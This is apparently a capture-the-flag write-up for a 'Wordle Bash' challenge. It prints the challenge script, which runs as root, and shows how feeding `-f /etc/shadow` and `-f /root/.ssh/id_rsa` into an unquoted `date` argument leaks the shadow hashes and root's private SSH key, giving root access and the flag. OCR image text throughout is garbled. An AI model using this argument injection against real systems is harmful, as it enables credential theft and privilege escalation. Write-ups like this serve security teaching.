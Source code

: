 # Wordle Bash
> We put a new novel spin on the old classic game of Wordle! Now it's written in bash! :D

> Oh, and you aren't guessing words, this time...

## About the Challenge
We were given a SSH server to connect, and after connect we got a bash file called `wordle_bash.sh`. Here is the content of the file

```shell
#!/bin/bash

YEARS=("2020" "2021" "2022" "2023" "2024" "2025")
MONTHS=("01" "02" "03" "04" "05" "06" "07" "08" "09" "10" "11" "12" )
DAYS=("01" "02" "03" "04" "05" "06" "07" "08" "09" "10" "11" "12" "13" "14" "15" "16" "17" "18" "19" "20" "21" "22" "23" "24" "25" "26" "27" "28" "29" "30" "31")

YEARS_SIZE=${#YEARS[@]}
YEARS_INDEX=$(($RANDOM % $YEARS_SIZE))
YEAR=${YEARS[$YEARS_INDEX]}

MONTHS_SIZE=${#MONTHS[@]}
MONTHS_INDEX=$(($RANDOM % $MONTHS_SIZE))
MONTH=${MONTHS[$MONTHS_INDEX]}

DAYS_SIZE=${#DAYS[@]}
DAYS_INDEX=$(($RANDOM % $DAYS_SIZE))
DAY=${DAYS[$DAYS_INDEX]}

TARGET_DATE="${YEAR}-${MONTH}-${DAY}"

gum style \
  --foreground 212 --border-foreground 212 --border double \
  --align center --width 50 --margin "1 2" --padding "2 4" \
  'WORDLE DATE' 'Uncover the correct date!'

echo "We've selected a random date, and it's up to you to guess it!"

wordle_attempts=1
while [ $wordle_attempts -le 5 ]
do
  echo "Attempt $wordle_attempts:"
  echo "Please select the year you think we've chosen:"
  chosen_year=$(gum choose ${YEARS[@]})

  echo "Now, enter the month of your guess: "
  chosen_month=$(gum choose ${MONTHS[@]})

  echo "Finally, enter the day of your guess: "
  chosen_day=$(gum choose ${DAYS[@]})

  guess_date="$chosen_year-$chosen_month-$chosen_day"

  if ! date -d $guess_date; then
    echo "Invalid date! Your guess must be a valid date in the format YYYY-MM-DD."
    exit
  fi

  confirmed=1
  while [ $confirmed -ne 0 ]
  do
    gum confirm "You've entered '$guess_date'. Is that right?"
    confirmed=$?
    if [[ $confirmed -eq 0 ]]
    then
      break
    fi
    echo "Please select the date you meant:"
    guess_date=$(gum input --placeholder $guess_date)
  done

  if [[ $(date $guess_date) == $(date -d $TARGET_DATE +%Y-%m-%d) ]]; then
    gum style \
      --foreground 212 --border-foreground 212 --border double \
      --align center --width 50 --margin "1 2" --padding "2 4" \
      "Congratulations, you've won! You correctly guessed the date!" 'Your flag is:' $(cat /root/flag.txt)
    exit 0
  else
    echo "Sorry, that wasn't correct!"
    echo "====================================="
  fi

  wordle_attempts=$((wordle_attempts+1))
done

gum style \
  --foreground 212 --border-foreground 212 --border double \
  --align center --width 50 --margin "1 2" --padding "2 4" \
  "Sorry, you lost." "The correct date was $TARGET_DATE."
```

This program can also be run as a root user.


[Image extracted text: userdwordle: $ sudo
-1
sudo:
unable
to mkdir
Irun/sudo/ts: Read-only file system
sudo:
Irun/sudolts:
Read-only
file system
We
trust
you
have
received
the
usual
lecture
from
the
local
System
Administrator
It
usually boils
down
to these
three
things=
#1)
Respect the privacy
of
others
#2)
Think
before
you type
#3)
With great power
comes great responsibility
For
security
reasons ,
the password
you type will
not
be visible
[sudo]
password for
user
Matching
Defaults
entries
for
user
on
wordle-bash-ae9df892dd5769fd-945567c95-gtg6b
env_reset
mail_badpass
secure_path-/usr/local/sbin| : /usr/local/bin| :/usr_
sbin| :/usr/bin] :
sbin| : /bin| : /snap/bin
User
user
may
run
the following
commands
on
wordle-bash-ae9df892dd5769fd-945567c95-gtg6b:
(root)
/home/user/wordle_bash
sh]


## How to Solve?
We can read any file as root because on this line

```shell
...
    guess_date=$(gum input --placeholder $guess_date)
  done

  if [[ $(date $guess_date) == $(date -d $TARGET_DATE +%Y-%m-%d) ]]; then
    gum style \
...
```

If we input `-f /etc/shadow` in the date prompt, it will execute `date -f /etc/shadow` command as root


[Image extracted text: Finally,
enter
the
of
guess
Wed
Jan
00
00
00
UTC
2020
Please
select the date
you
meant
date
invalid
date
troot: $6fuqg71yAXrSJBtkoBskuIpPLknAOF7. M4TTg8sfkQkOIx.6fRELQUtLpVixxSAb58jEPo2fCKwqWJMOwkLVznEIFSL .aUNTGZUSyESdo
19524:0:::
date
invalid
date
tbin:! ::0::::
date
invalid date
daemon: ! ::0:
date:
invalid
date
adm: ! ::0: ::
date
invalid date
'Lp:!::0:
date
invalid
date
sync
!:
0 :
date:
invalid date
shutdown:
0:
date
invalid
date
thalt:!
date:
invalid date
mail:
date
invalid
date
news
!:
deto
invalid
deto
tucn
day
your
:0_]


But when I want to read `/root/flag.txt` file, the result was:


[Image extracted text: Wed
Jan
00 : 00
00 UTC
2020
Please
select
the
date
you
meant
date
invalid date
'[ Sorry
your
will
be displayed
once you have
code
execution
as
root
1'
that
wasn
correct!
Attempt
2 :
Pleaso
colect
+ho
Voar
Vo
think
Wa
Vo
chocon
flag
Sorry ,]


Hmm, that means we need to login as root in order to read the flag. At first I thought I need to bruteforce the `/etc/shadow` root password. But there is another way by reading the content of `/root/.ssh/id_rsa`


[Image extracted text: enter
the
month
of your guess:
Finally,
enter
the
of
your
guess
Wed
Jan
00
00
00 UTC
2020
Please
select
the
date
you
meant
date:
invalid date
BEGIN OPENSSH PRIVATE
KEY____=
date:
invalid
date
'b3BlbnNzaClrZXktdjEAAAAABGSvbmUAAAAEbmguZQAAAAAAAAABAAABLWAAAAdzc2gtcn'
date
invalid date
NhAAAAAwEAAQAAAYEAxl MaPu/ewDgLK/+qcskWbUtSiQtLBBXULsSEGWmGbTdKh KTtrc'
date
invalid
date
NhtghbSx8EiucLQWhbbWcvIqDAgrXYOgVb/sr/BEyklaVVTpFfLuFbsyZNZTqmONajdsf9'
date:
invalid date
'Kl/4Qy9u8/3duhBYaeVOAm4tKOmzM8/D2YbzmYD+pK8GFWJDQGSRdFst j6NxXjROAsaj8H'
date
invalid
date
'UTHHvkNFctEMMBmquAaG85DZO83ZUWWASB7OZUNrc701Mhdf7Ln92DZaEhwMisdBjK/F83'
date
invalid date
'K7IYIcrpkuDTQYhmsuSGULYILUaIhridKH3m3BgCNhCSmjsySIkVOVwG/ SRxewOadhHxT+'
date
invalid
date
Gc9izizyyluW-
wrJTOu8_
ImQhTm3SR+cLD+SpWJSHSWDxygCVHTUvVIngNakJvWXRKDmS3N'
date
invalid date
'PjIuggaJ3D69Q3BDlxcbluhjl2Z/SnenryuzdoVORnCf7SYillgTtI/FhSZHnHyw6gLaJoH'
date:
invalid
date
1NPGh/mV7300snqtdakxkHXd3CDhcwYSQjvJLFEdAAAFgALNDvEJTQTxAAAAB3NzaClyc2'
date
invalid date
EAAAGBAMZZTGjTv3sA4JSv/qnLJFmlEOokL SwQV+CZORBLphm03SoeyuTawjYbfYWOsfBI
date
invalid
date
uHCOFoW28HLyKgwIK1ZDvVW
7K/wRMpNWL VU6RXyZhW7MmTWU6p j jWo3bH/ Spf+EMvbvPg
Now ,
day]


Use that key to login as root, and then run the executable program to obtain the flag


[Image extracted text: daffainfo@LAPTOP-FIL3RGSH:
$
ssh
~p
32666 root@challenge .nahamcon
com
id_rsa
root@wordle:
#
ls
txt
get_
_random_suffix_345674837560870345
root@wordle:
#
Iget_flag_random_suffix_345674837560870345
Please
press
Enter within
one
second
to retrieve
the
flag
flag{2b9576d1a7a631b8cel2595f80f3aba5}
root@wordle:
flag
flag]


```
flag{2b9576d1a7a631b8ce12595f80f3aba5}
```